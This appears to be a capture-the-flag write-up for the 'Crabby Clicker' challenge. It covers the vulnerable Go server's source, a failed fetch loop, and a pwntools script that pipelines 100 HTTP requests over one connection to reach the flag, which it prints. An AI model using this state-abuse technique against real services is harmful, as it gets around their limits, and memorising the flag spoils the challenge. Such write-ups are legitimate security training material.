





# Crabby Clicker

> I've created a new game called Crabby Clicker! It's a fun game where you click on a crab to get points. Once you get enough points, you can buy the flag!
> 
> http://crabby-clicker.ctf.umasscybersec.org/

Solution:

We are given with the source file for the challenge: `main.go`

```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
	"strings"
	"time"
)

type RequestHandler struct {
	burgers int
	conn    net.Conn
}

var GLOBAL_STATE RequestHandler

func main() {
	// Listen on TCP port 8080 on all interfaces.
	ln, err := net.Listen("tcp", ":1337")
	if err != nil {
		fmt.Println("Error listening:", err.Error())
		return
	}
	defer ln.Close()
	fmt.Println("Listening on :1337")

	GLOBAL_STATE = RequestHandler{burgers: 0, conn: nil}

	for {
		// Accept a connection.
		conn, err := ln.Accept()
		if err != nil {
			fmt.Println("Error accepting: ", err.Error())
			return
		}

		// burger to the GLOBAL_STATE from the request handler so we can track between requests
		handler := RequestHandler{burgers: GLOBAL_STATE.burgers, conn: conn}
		go handler.handleRequest()
	}
}

func (r *RequestHandler) handleRequest() {
	defer r.conn.Close()

	reader := bufio.NewReader(r.conn)

	for {
		// Set a deadline for reading. If a second passes without reading any data, a timeout will occur.
		r.conn.SetReadDeadline(time.Now().Add(1 * time.Second))

		// Read and parse the request headers
		request, err := readHTTPHeader(reader)
		if err != nil {
			return
		}

		requestLines := strings.Split(request, "\n")
		if len(requestLines) < 1 {
			fmt.Println("Invalid request")
			return
		}

		// Parse the request line
		requestLine := strings.Fields(requestLines[0])
		if len(requestLine) < 3 {
			fmt.Println("Invalid request")
			return
		}

		method := requestLine[0]
		uri := requestLine[1]

		// Check if the request is a valid GET request
		if method != "GET" {
			r.conn.Write([]byte("HTTP/1.1 405 Method Not Allowed\r\n\r\n"))
			return
		}

		// Handle GET request
		if uri == "/" {
			r.generateResponse(`
Welcome to Crabby Clicker!
A HTTP based clicker game where you can earn burgers to get the flag. 
Make a request to /click to gain a burger.
I use my own custom HTTP server implementation to manage the state of the game.
It's not fully working, I am running into some bugs.
			`)
		} else if uri == "/click" {
			// BUG: Weird thing where the state is not updated between requests??
			r.burgers++
			r.generateResponse("burger added")
		} else if uri == "/flag" {
			if r.burgers >= 100 {
				r.generateResponse(fmt.Sprintf("Flag: UMASS{%s}", os.Getenv("FLAG")))
			} else {
				r.generateResponse("Not enough burgers")
			}
		} else {
			r.generateResponse("Not found")
		}
	}
}

func (r *RequestHandler) generateResponse(message string) {
	r.conn.Write([]byte(fmt.Sprintf("HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n%s\nburgers: %d\n", message, r.burgers)))
}

func readHTTPHeader(reader *bufio.Reader) (string, error) {
	// Read headers until \r\n\r\n
	var requestLines []string
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}
```

So the flag will be given to us if we have at least 100 burger.

Let's check the challenge website to try it out.



Copied the network request and pasted it in the console. Created a for loop to do 100 requests to `/click` then call `/flag` afterwards.

```
for (let x = 1; x <= 100; x++){
    fetch("http://crabby-clicker.ctf.umasscybersec.org/click", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "upgrade-insecure-requests": "1"
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": null,
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
});
}
fetch("http://crabby-clicker.ctf.umasscybersec.org/flag", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "upgrade-insecure-requests": "1"
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": null,
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
});
```







Hmm, not enough burgers. It's not incrementing :/

Let's check the source code again...

```go
} else if uri == "/click" {
    // BUG: Weird thing where the state is not updated between requests??
    r.burgers++
    r.generateResponse("burger added")
```

The issue is also mentioned in the comment...so how can we reach at least 100 burgers?

I thought of having an attack related to CRLF (Carriage Return Line Feeds) to do multiple requests...and it is indeed possible!

Our request is being read at:
```go
    // Read and parse the request headers
    request, err := readHTTPHeader(reader)
    if err != nil {
        return
    }
...
...
...
func readHTTPHeader(reader *bufio.Reader) (string, error) {
	// Read headers until \r\n\r\n
	var requestLines []string
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}
```

So if our payload is
```
GET /click HTTP/1.1\r\nHost: crabby-clicker.ctf.umasscybersec.org\r\n\r\nGET /click HTTP/1.1\r\nHost: crabby-clicker.ctf.umasscybersec.org\r\n\r\n
```

It will be interpreted as two concurrent requests to `/click`!

Time to have the attack script :D

```python
from pwn import *
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

host = 'crabby-clicker.ctf.umasscybersec.org'
port = 80
conn = remote(host, port)

payloadData = []

for x in range(0, 100):
    payloadData.append(f"GET /click HTTP/1.1\r\nHost: {host}\r\n\r\n")

payloadData.append(f"GET /flag HTTP/1.1\r\nHost: {host}\r\n\r\n")

payload = ''.join(payloadData)

conn.send(payload)
print(conn.recvall().decode())

conn.close()
```

Let's run it...



Boom!

Flag: `UMASS{y_w0uld_u_w4nt_mult1p13_r3qu35t5}`